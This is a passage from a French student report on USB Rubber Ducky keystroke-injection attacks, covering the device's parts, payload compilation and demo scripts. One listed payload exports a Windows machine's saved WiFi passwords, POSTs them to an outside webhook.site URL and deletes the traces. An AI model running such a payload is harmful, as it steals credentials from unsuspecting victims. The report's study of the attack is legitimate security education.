
\includegraphics{images/2.png}\tabularnewline
Source: elie.net
\href{https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/}{image
source}\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{days}{%
\subsection{0-Days}\label{days}}

Le driver zero-day exploite une faille non corrigée du pilote USB : le
programme destiné à permettre la bonne utilisation de la clé USB par
l'ordinateur. Le programme malveillant exploite le driver pour corrompre
la victime au moment où l'on branche la clé.

Par exemple en utilisant un matériel personnalisé qui exploite une
vulnérabilité dans un pilote USB pour obtenir le contrôle direct d'un
ordinateur dès qu'il est branché.

\hypertarget{mise-en-place-concruxe8te}{%
\section{Mise en place concrète}\label{mise-en-place-concruxe8te}}

Il y a trois parties principales qui viennent avec le \emph{USB Rubber
Ducky} pour créer, tester et lancer des instructions.

\hypertarget{les-diffuxe9rentes-parties}{%
\subsection{Les différentes parties}\label{les-diffuxe9rentes-parties}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  \textbf{L'adaptateur ``clavier''}: Il s'agit d'une petite carte
  électronique avec un processeur et un emplacement pour insérer la
  carte microSD. C'est ici que se trouve la configuration du HID, et
  c'est ce qui envoie les frappes comme si elles provenaient d'un
  clavier réel.
\item
  \textbf{La carte microSD}: Une carte microSD de 128 MB. Elle dispose
  de suffisamment d'espace pour exécuter la plupart des charges utiles.
  La seule chose qui doit aller sur la carte est un fichier
  \texttt{inject.bin} dans le répertoire racine. C'est ce que
  l'adaptateur de clavier utilise pour savoir quelle charge utile
  envoyer en tant que frappes.
\item
  \textbf{L'adaptateur microSD vers USB}: Petit adapteur USB qui se
  glisse dans un boîtier. Il est utilisé pour monter la carte microSD
  afin de pouvoir y transférer fichier \texttt{inject.bin}.
\end{enumerate}

\hypertarget{comment-utiliser-lencodeur-usb-rubber-ducky-master}{%
\subsection{\texorpdfstring{Comment utiliser l'encodeur
\emph{USB-Rubber-Ducky-master}}{Comment utiliser l'encodeur USB-Rubber-Ducky-master}}\label{comment-utiliser-lencodeur-usb-rubber-ducky-master}}

Pour commencer il est nécessaire d'installer l'encodeur\footnote{hak5darren,
  19 décembre 2016, github,
  \href{https://github.com/hak5darren/USB-Rubber-Ducky}{USB-Rubber-Ducky}}.
Il s'agit d'un programme qui prend le script \texttt{payload} et le
convertit en un fichier \texttt{inject.bin} multiplateforme que
l'adaptateur de clavier utilise.

Il est disponible dans le dossier \texttt{archive} du projet. Aussi, le
dossier \texttt{USB-Rubber-Ducky-master} à la racine du projet contient
le \texttt{.jar} nécessaire à transformer le \texttt{payload} en
\texttt{inject.bin}.

Le plus simple est d'utiliser le programme java
\texttt{duckencoder.jar}. Il vous permet de compiler le \texttt{payload}
et de le copier vers la carte microSD en une seule étape.

Il suffit de lancer la ligne de commande suivante dans le dossier du
projet:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{java {-}jar duckencoder.}\FunctionTok{jar}\NormalTok{  {-}i ../payload.}\FunctionTok{txt}\NormalTok{ {-}o D:/inject.}\FunctionTok{bin}
\end{Highlighting}
\end{Shaded}

\begin{quote}
\textbf{Note}: Il est possible de lancer la commande depuis n'importe
où, mais il est alors nécessaire de changer les chemins. Il est aussi
nécessaire d'avoir un JRE d'installer\footnote{installation de Java
  \href{https://www.java.com/fr/download/manual.jsp}{Java JRE}}.
\end{quote}

\begin{itemize}
\tightlist
\item
  \texttt{-i} correspond à l'input; \textgreater{} comme le fichier
  \texttt{payload.txt} se trouve à la racine, \texttt{../} est
  nécessaire
\item
  \texttt{-o} correspond à la sortie, soit \texttt{inject.bin};
\item
  \texttt{D:} correspond au disque, soit à la carte MicroSD de 128 MB;
  \textgreater{} il est nécessaire de la connecter par USB via
  l'adaptateur microSD vers USB.
\end{itemize}

Après avoir compris quoi utiliser et comment compiler le fichier grâce à
l'encodeur, cette étape est finalement très simple et rapide.

Il ne reste plus qu'à implémenter un \texttt{payload}.

\hypertarget{impluxe9mentation-du-payload}{%
\subsubsection{\texorpdfstring{Implémentation du
\texttt{payload}}{Implémentation du payload}}\label{impluxe9mentation-du-payload}}

Des implémentations simples ont été réalisées. Elles implique
principalement le lancement de programmes par l'intermédiaire de
l'invite de commande. Un \texttt{DELAY} est utilisé pour permettre
d'observer les différentes étapes du script.

\hypertarget{ruxe9sultats}{%
\paragraph{Résultats}\label{ruxe9sultats}}

Les résultats sous forme de vidéos et de .gif se trouve dans le dossier résultats.

\textbf{Exemple 1}: Le premier script ci-dessous ouvre un invite de
commande et lance \texttt{notepad.exe} pour écrire un simple texte
toutes les 50 millisecondes.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{DELAY 1000}
\NormalTok{GUI }\FunctionTok{r}
\NormalTok{DELAY 100}
\NormalTok{ENTER}
\NormalTok{DELAY 500}
\DataTypeTok{STRING}\NormalTok{ notepad.}\FunctionTok{exe}
\NormalTok{DELAY 500}
\NormalTok{ENTER}

\NormalTok{DELAY 100}
\DataTypeTok{STRING}\NormalTok{ s}
\NormalTok{DELAY 50}
\DataTypeTok{STRING} \FunctionTok{h}
\NormalTok{DELAY 50}
\DataTypeTok{STRING}\NormalTok{ e}
\NormalTok{DELAY 50}
\DataTypeTok{STRING}\NormalTok{ e}
\NormalTok{DELAY 50}
\DataTypeTok{STRING}\NormalTok{ s}
\NormalTok{DELAY 50}
\DataTypeTok{STRING} \FunctionTok{h}
\end{Highlighting}
\end{Shaded}

\textbf{Exemple 2}: Le deuxième script ci-dessous ouvre un invite de
commande et lance \texttt{msedge.exe} avec un lien youtube sur la
célèbre musique \emph{``Never gonna give you up''}, puis ouvre
\texttt{notepad.exe} pour écrire deux lignes de texte.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{DELAY 1500}
\NormalTok{GUI }\FunctionTok{r}
\NormalTok{DELAY 200}
\DataTypeTok{STRING}\NormalTok{ msedge.}\FunctionTok{exe}\NormalTok{ https://www.}\FunctionTok{youtube}\NormalTok{.}\FunctionTok{com}\NormalTok{/watch?v=dQw4w9WgXcQ}
\NormalTok{ENTER}
\NormalTok{DELAY 200}
\NormalTok{GUI }\FunctionTok{r}
\DataTypeTok{STRING}\NormalTok{ cmd}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ notepad.}\FunctionTok{exe}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ never gonna give}
\NormalTok{DELAY 50}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ never gonna give}
\NormalTok{DELAY 50}
\NormalTok{CTRL S}
\NormalTok{DELAY 50}
\DataTypeTok{STRING}\NormalTok{ never}
\NormalTok{ENTER}
\end{Highlighting}
\end{Shaded}

Ces exemples sont simples dans une volonté de montrer de petites
opérations inoffensives.

En revanche, ils démontrent le potentiel d'attaque de cette technologie.
D'autres scripts plus dangereux sont libres d'être utilisés en suivant
ce
\href{https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library}{lien}\footnote{Payloads
  library, github,
  \href{https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library}{hak5
  payloads library}}.

Typiquement, voici un exemple permettant de prendre les mots de passe du
WiFi d'une machine et les envoyer à un serveur distant par la méthode
POST.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{DELAY 3000}
\NormalTok{GUI }\FunctionTok{r}
\NormalTok{DELAY 100}
\DataTypeTok{STRING}\NormalTok{ cmd /k}
\NormalTok{ENTER}
\NormalTok{DELAY 500}
\DataTypeTok{STRING} \FunctionTok{cd}\NormalTok{ \%temp\%}
\NormalTok{ENTER}
\NormalTok{DELAY 500}
\DataTypeTok{STRING}\NormalTok{ netsh wlan export profile key=}\FunctionTok{clear}
\NormalTok{ENTER}
\NormalTok{DELAY 1000}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ powershell }\FunctionTok{Select{-}String}\NormalTok{ {-}Path Wi*.}\FunctionTok{xml}\NormalTok{ {-}Pattern \textquotesingle{}keyMaterial\textquotesingle{} \textgreater{} WiFi{-}PASS}
\NormalTok{ENTER}
\NormalTok{DELAY 1000}
\DataTypeTok{STRING}\NormalTok{ powershell }\FunctionTok{Invoke{-}WebRequest}\NormalTok{ {-}Uri https://webhook.}\FunctionTok{site}\NormalTok{/URL {-}Method POST {-}InFile WiFi{-}PASS}
\NormalTok{ENTER}
\NormalTok{DELAY 1000}
\DataTypeTok{STRING} \FunctionTok{del}\NormalTok{ WiFi* /s /f /q}
\NormalTok{ENTER}
\NormalTok{DELAY 100}
\DataTypeTok{STRING} \KeywordTok{exit}
\NormalTok{ENTER}
\end{Highlighting}
\end{Shaded}

Il y a énormément d'autres scripts utilisables, et l'implémentation d'un
script est relativement simple. En revanche, les moyens se complexifient
sur la manipulation a effectué. Une connexion à un serveur distant via
tcp par exemple demande une certaine organisation et un serveur en
marche que l'on souhaite atteindre, puis vérifié que les données
envoyées sont bien arrivées sur le serveur distant.

\hypertarget{conclusion}{%
\section{Conclusion}\label{conclusion}}

Par l'utilisation de la clé d'usurpation \emph{USB Rubber Ducky}, il a
été possible de lancer des \texttt{payloads} après une simple connexion
du matériel.

Un test a été effectué avec l'ordinateur de l'école, et rien n'a été
détecté concernant un inhabituel comportement du PC, même avec des
\texttt{payloads} sans délai entre les commandes.

La mise en place une fois avoir compris comment fonctionnait l'encodeur
est si simple que cela soulève une grande inquiétude. En sachant que ce
matériel est accessible à tous et que sa fabrication ne demande que très
peu de ressources, il est quasiment impossible de se protéger contre une
attaque de ce genre actuellement. Il suffit de laisser son ordinateur
sans surveillance et c'est déjà potentiellement trop tard.

En revanche, ce genre d'attaque souffre d'une chose assez simple.
L'encodage se fait selon un type de clavier, mais pas celui utilisant
les propriétés du système cible. Typiquement, le mot \emph{youtube} dans
le script implémenté s'écrit \emph{zoutube} sur les claviers suisses,
car la langue par défaut est l'anglais et que les claviers anglais ont
la disposition \emph{QWERTY}, ainsi lorsqu'il veut appuyer sur \emph{Z}
il appuie sur \emph{Y} et inversément. Cela implique que les caractères
des scripts écrits vont dépendre du clavier sur lesquels ils vont être
utilisés. Ainsi, il est tout à fait possible que sans test, le script ne
fonctionne pas où fasse quelque chose d'innatendu.

\hypertarget{bibliographie}{%
\section{Bibliographie}\label{bibliographie}}

{[}1{]} Bruno Camus, Rapports de stages et mémoires, Les éditions
d'organisation, 1989. (Bibliothèque ENSPS : 808.06 CAM)

{[}2{]} Règles typographiques en usage à l'Imprimerie nationale,
Imprimerie nationale, troisième édition, 1994.

{[}3{]}
\href{https://github.com/Wandmalfarbe/pandoc-latex-template}{Eisvogel},
Latex template, Copyright (c) 2017 - 2021, Pascal Wagler, 2014 - 2021,
John MacFarlane, open source licensed under the BSD 3-Clause License.

{[}4{]} Honeywell Forge, ATLANTA, June 22, 2021,
\href{https://www.honeywellforge.ai/us/en/press-release/honeywell-cybersecurity-research-reports-significant-increase-in-usb-threats-that-can-cause-costly-business-disruptions}{Honeywell
USB Threat Report}

{[}5{]} elie.net, Elie Bursztein, Date August 2016,
\href{https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/}{What
are malicious usb keys and how to create a realistic one?}

{[}6{]} Wikipedia®, Wikimedia Foundation, Inc., 25 avril 2022,
\href{https://fr.wikipedia.org/wiki/Sécurité_des_liens_USB}{Sécurité des
lien USB}

{[}7{]} hak5darren, 19 décembre 2016, github,
\href{https://github.com/hak5darren/USB-Rubber-Ducky}{USB-Rubber-Ducky}

{[}8{]}: May 1, 2017 By Pierluigi Paganini,
\href{https://securityaffairs.co/wordpress/58587/hacking/whid-injector-bring-hid-attacks.html\#:~:text=WHID\%20stands\%20for\%20WiFi\%20HID,HID\%20Attacks\%2C\%20during\%20their\%20engagements.}{WHID
Injector: How to Bring HID Attacks to the Next Level}

\end{document}
